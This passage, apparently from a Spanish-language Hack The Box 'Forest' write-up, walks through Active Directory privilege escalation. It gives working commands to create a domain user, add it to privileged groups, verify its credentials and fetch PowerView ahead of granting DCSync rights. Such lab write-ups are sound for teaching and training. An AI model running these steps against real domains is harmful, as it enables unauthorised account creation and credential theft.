 ### Finding an attack vector in BloodHound

Es hora de elevar nuestros privilegios y obtener acceso de administrador. Volviendo a BloodHound, podemos ver que nuestro usuario, svc-alfresco, es miembro del grupo “Account Operators” que tiene permiso GenericAll en el grupo “Exchange Windows Permissions”.

Con el permiso GenericAll, tenemos todos los derechos sobre el objeto de destino (agregar usuarios a un grupo, restablecer la contraseña del usuario, etc.) y podemos abusar de este permiso débil.

Además, el grupo “Exchange Windows Permissions” tiene permiso WriteDACL en el dominio (htb.local). Esto significa que si creamos un usuario y lo agregamos al grupo “Exchange Windows Permissions”, podríamos darle derechos de acceso DCSync y volcar los hashes de contraseña del controlador de dominio.

<figure><img src="../../../../../.gitbook/assets/htb_forest_bloodhound_02.png" alt=""><figcaption></figcaption></figure>

### Abusing Account Operators Group - Creating a new user

Abusando de que el usuario **svc-alfresco** se encuentra en el grupo donde podemos crear usuarios, procederemos a añadir un nuevo usuario y hacerlo miembro del grupo "Exchange Windows Permissions"

```bash
net user jr Password01! /add /domain

net group "Exchange Windows Permissions" jr /add
```

<figure><img src="../../../../../.gitbook/assets/842_vmware_awXhH0eTa3.png" alt=""><figcaption></figcaption></figure>

### Abusing Account Operators Group - Assigning a group to the newly created user

```bash
net localgroup "Remote Management Users" jr /add
```

<figure><img src="../../../../../.gitbook/assets/843_vmware_fRM8MCczaC.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que el usuario se ha creado correctamente y las credenciales funcionan sin problemas.

```
netexec smb 10.10.10.161 -u jr -p 'Password01!' -d htb.local
```

<figure><img src="../../../../../.gitbook/assets/844_vmware_re26RpA4yA.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteDacl in the domain - Granting DCSync Privileges

Primero de todo, procederemos a descargarnos el PowerView en nuestro equipo Kali, lo pasaremos al equipo que queremos comprometer e importaremos el módulo.

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

upload PowerView.ps1

Import-Module .\PowerView.ps1
```
{% endcode %}
